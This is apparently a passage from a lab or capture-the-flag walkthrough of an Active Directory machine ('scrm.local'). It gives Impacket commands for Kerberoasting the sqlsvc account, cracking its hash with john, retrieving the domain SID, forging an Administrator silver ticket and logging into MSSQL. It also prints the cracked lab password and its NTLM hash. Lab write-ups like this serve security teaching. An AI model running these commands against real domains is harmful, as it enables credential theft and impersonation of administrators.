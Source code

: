 ```
python3 GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -request
```

Running this command provides a hash for the `sqlsvc` user, that can then be cracked with `john`. Add the hash to a file called `hash` and then run the following command:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Once `john` finishes, it will show that the password for the `sqlsvc` user is `Pegasus60`

Although these credentials do not directly provide any further access, they can be used in a Silver Ticket Attack to impersonate the Domain Admin on the SQL server.

## Gaining User Access

The next step is to perform the silver ticket attack. However, a few details are required before this attack can be performed

**NTLM Hash of Password**

A silver ticket attack requires an NTLM hash, which has not yet been gathered. Because the plain text password was gained from the dictionary attack earlier, an [online tool](https://codebeautify.org/ntlm-hash-generator) can be used to hash the plain text password with NTLM. The tool outputs the following NTLM hash:

`B999A16500B87D17EC7F2E2A68778F05`

**Security Identifier of the Domain (SID)**

A silver ticket attack also requires the SID. Whilst  `ldapsearch` can be used to gather the binary SID and use a python script to convert it to string form, it is unnecessarily complicated when there is access to Impacket tools. The Impacket tool `getPac.py` is used to gather the Privilege Attribute Certificate for any user, however it also prints the domain SID.

Use this Impacket command, targeting the `Adminstrator` user using the `ksimpson` credentials.

`python3 getPac.py -targetUser administrator scrm.local/ksimpson:ksimpson`

`Domain SID: S-1-5-21-2743207045-1827831105-2542523200`

**Generating the ticket**

Now that all the required information has been gathered. The following command can be used to generate a silver ticket for the `Administrator` user that the SQL service will trust:

`python3 ticketer.py -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator

This will output a file `administrator.ccache` - This file is the Kerberos ticket for MSSQLSvc.

**Connecting to the SQL Database**

Now that a ticket has been generated that the SQL Server will trust, it is simple to connect to the SQL Database with another Impacket tool `mssqlclient.py`:

`KRB5CCNAME=administrator.ccache python3 mssqlclient.py -k dc1.scrm.local`
